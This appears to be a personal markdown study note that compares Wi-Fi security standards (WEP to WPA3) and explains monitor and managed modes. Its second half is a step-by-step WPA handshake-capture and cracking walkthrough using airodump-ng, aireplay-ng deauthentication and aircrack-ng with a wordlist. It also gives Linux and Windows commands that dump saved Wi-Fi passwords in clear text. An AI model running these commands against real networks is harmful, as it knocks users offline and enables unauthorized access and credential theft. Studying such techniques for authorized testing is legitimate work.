 ### 🔒 WEP (Wired Equivalent Privacy)

- Introduced: 1997 (original Wi-Fi standard, IEEE 802.11).
- Encryption: RC4 stream cipher with 64-bit / 128-bit keys.
- Weakness: Very easy to crack due to weak key scheduling and predictable IV (Initialization Vector).
- Status: Obsolete – can be hacked in minutes with tools like Aircrack-ng.

### 🔒 WPA (Wi-Fi Protected Access)

- Introduced: 2003 (as a quick fix to replace WEP).
- Encryption: TKIP (Temporal Key Integrity Protocol).
- Improvement: Added per-packet key mixing + message integrity check.
- Weakness: Still vulnerable (TKIP is outdated), can be cracked with dictionary attacks.
- Status: Deprecated but still seen in old devices.

### 🔒 WPA2 (Wi-Fi Protected Access 2)

- Introduced: 2004 (mandatory since 2006 for Wi-Fi certification).
- Encryption: AES-CCMP (stronger than TKIP).
- Improvement: Much more secure than WPA.
- Weakness: Vulnerable to KRACK attack (2017) if patches not applied; WPA2-Personal (PSK) can be cracked via weak passwords.
- Status: Still widely used today.

### 🔒 WPA3 (Wi-Fi Protected Access 3)

- Introduced: 2018 (latest standard).
- Encryption: SAE (Simultaneous Authentication of Equals) replaces PSK.
- Improvement:
	- Strong protection against offline password-guessing.
	- Forward secrecy (session keys stay safe even if password is later known).
	- Mandatory 192-bit encryption for enterprise networks.
- Weakness: Some early implementation flaws (Dragonblood attack), but patches fixed most issues.
- Status: Most secure standard available; slowly becoming mainstream.

#### ✅ Summary:

- WEP → insecure, obsolete.
- WPA → weak, deprecated.
- WPA2 → secure if patched, still common.
- WPA3 → most secure, recommended for modern networks.

---

### 📡 Wi-Fi Modes in Linux / Networking

#### 🔍 Monitor Mode

**What it is:**
- A special mode where the Wi-Fi card can capture all wireless traffic in the air, even if it’s not meant for your device.

**Use cases:**
- Packet sniffing (Wireshark, tcpdump).
- Security testing (Aircrack-ng, Kismet).
- Analyzing nearby networks without connecting.

**Key point:**
- You don’t need to be connected to a network. It’s like putting your card into “listen-only” mode.
- Example command (Linux):
	```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor
	sudo ifconfig wlan0 up

	or 
    sudo airmon-ng check kill
	sudo airmon-ng start  wlan0
	```

#### 🌐 Managed Mode

**What it is:**
- The default mode for Wi-Fi cards. In this mode, your Wi-Fi card communicates only with the Access Point (AP) it’s connected to.

**Use cases:**
- Normal Wi-Fi usage (browsing, streaming, etc.).
- Standard network communication.

**Key point:**
- Only processes traffic to/from your device and ignores all other packets in the air.
- Example command (Linux):
```bash
sudo iwconfig
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up

or 
sudo iwconfig
sudo airmon-ng stop  wlan0mon

```


### Pentesting Wifi

#### 1. wifite : 

   |NUM  |                    ESSID |  CH | ENCR  |  PWR   | WPS | CLIENT|                                       
   |---  |------------------------- | --- | ----- |  ----  | --- | ------|
   |  1  |                    ROBIN |   7 | WPA   |  99db  |  no |   1   |                                        
   |  2  |                    sonu  |   4 | WPA-P |  22db  | yes |   1   |

   - WPS enabled? :  ✅ WPS is ON → vulnerable to WPS attacks (Pixie Dust, Reaver, Bully).

#### 2. fern-wifi-cracker 


#### 3. Manually 

1. Enable Monitor Mode
```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor

	# or 

	sudo airmon-ng check kill         
    sudo airmon-ng start wlan0

    sudo airmon-ng stop  wlan0mon
```
2. Scan for targets
```bash
   sudo airodump-ng wlan0mon
```
3. Capture  handshake

```bash
	# BSSID = 16:32:51:73:9A:94

	sudo airodump-ng -c 11 --bssid 16:32:51:73:9A:94 -w capture wlan0mon

	# In Other terminal DeAuth to get handshake  :

	sudo aireplay-ng -0 10 -a 16:32:51:73:9A:94  -c Station_BSSID wlan0mon
	sudo aireplay-ng -0 50 -a 16:32:51:73:9A:94  -c C6:6D:35:3D:14:72 wlan0mon

	# -0 = deauth attack
    # 10 = number of deauth packets
    # -a = target AP BSSID
```

5. Crack the handshake

- Now use a wordlist (like rockyou.txt):
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 16:32:51:73:9A:94 capture-02.cap
```


```bash
#All Commnad
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid [MAC adress] -c [channel number] -w [output file] wlan0mon
aireplay-ng --deauth [Number of deauth packs] -a [MAC adress] wlan0mon
aircrack-ng [path to pcap file] -w [path to wordlist]
```







## Play with Windows/Linux cmd
-  Cmd to get saved password
```bash
# Linux : 
# SSID="Wifi Name"
sudo cat /etc/NetworkManager/system-connections/SSID.nmconnection | grep -i psk=

# Windows:

netsh wlan show profiles
netsh wlan show profile name="WiFi-Name" key=clear
netsh wlan export profile key=clear folder=C:\wifi-password-backup  #(including passwords) as XML


```


## ✅ Quick Workflow

- Before pentest
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

- After pentest (to restore internet)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```
---







**RobinH00d**
---

